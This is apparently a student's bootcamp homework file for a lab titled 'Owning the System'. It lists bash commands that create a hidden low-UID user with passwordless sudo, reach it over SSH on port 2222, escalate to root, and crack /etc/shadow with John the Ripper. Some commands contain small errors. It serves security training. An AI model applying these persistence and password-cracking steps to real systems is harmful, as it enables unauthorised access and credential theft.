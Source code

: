 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser –-no-create-home sysd'

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 500 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 500 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo `
   sysd All=(ALL) NOPASSWD:ALL 
   
6. Test that `sudo` access works without your password:

    ```sudo -l sysd
       sudo apt-get update
       sudo -h
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```nano etc/ssh/sshd_config
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart sshd.service `

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su `

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

